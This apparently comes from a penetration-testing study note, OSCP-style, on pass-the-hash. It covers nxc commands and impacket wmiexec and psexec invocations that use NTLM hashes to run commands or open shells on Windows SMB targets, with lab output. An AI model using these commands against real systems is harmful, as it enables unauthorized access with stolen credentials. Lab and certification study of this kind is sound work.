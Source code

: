 ##### Requirements
Hash required: LM, NTLM
The target machine needs to have an open SMB port (usually 445).
The target machine needs to have **Windows File and Printer Sharing** enabled.

Method: [[Extract hash from SAM,SYSTEM]], or use found hashes. Confirm type with hash-identifier.


### Using SMB
```
nxc smb TARGET_IP -u USER -H 'NTLM_HASH' -x COMMAND
```
###### Example output
```
┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #nxc smb 192.168.187.226 -u itwk04admin -H '445414c16b5689513d4ad8234391aacf' -x ipconfig
SMB         192.168.187.226 445    ITWK04           [*] Windows 10.0 Build 22000 x64 (name:ITWK04) (domain:itwk04) (signing:False) (SMBv1:False)
SMB         192.168.187.226 445    ITWK04           [+] itwk04\itwk04admin:445414c16b5689513d4ad8234391aacf (Pwn3d!)
SMB         192.168.187.226 445    ITWK04           [+] Executed command via wmiexec
SMB         192.168.187.226 445    ITWK04           Windows IP Configuration
SMB         192.168.187.226 445    ITWK04           
SMB         192.168.187.226 445    ITWK04           
SMB         192.168.187.226 445    ITWK04           Ethernet adapter Ethernet0:
SMB         192.168.187.226 445    ITWK04           
SMB         192.168.187.226 445    ITWK04           Connection-specific DNS Suffix  . :
SMB         192.168.187.226 445    ITWK04           Link-local IPv6 Address . . . . . : fe80::89f1:b602:3e16:f298%2
SMB         192.168.187.226 445    ITWK04           IPv4 Address. . . . . . . . . . . : 192.168.187.226
SMB         192.168.187.226 445    ITWK04           Subnet Mask . . . . . . . . . . . : 255.255.255.0
SMB         192.168.187.226 445    ITWK04           Default Gateway . . . . . . . . . : 192.168.187.254

```


Connect to machine using impacket's wmiexec.py:
```
cp /usr/share/doc/python3-impacket/examples/wmiexec.py . // Default location on Parrot OS
python3 wmiexec.py -hashes LM_HASH:NTLM_HASH USER@TARGET_IP   // Spawns a semi-interactive Windows shell

OR 
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
OR
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
Note: Don't forget to replace USER with admin when using admin hashes.

Alternatively, use WinRM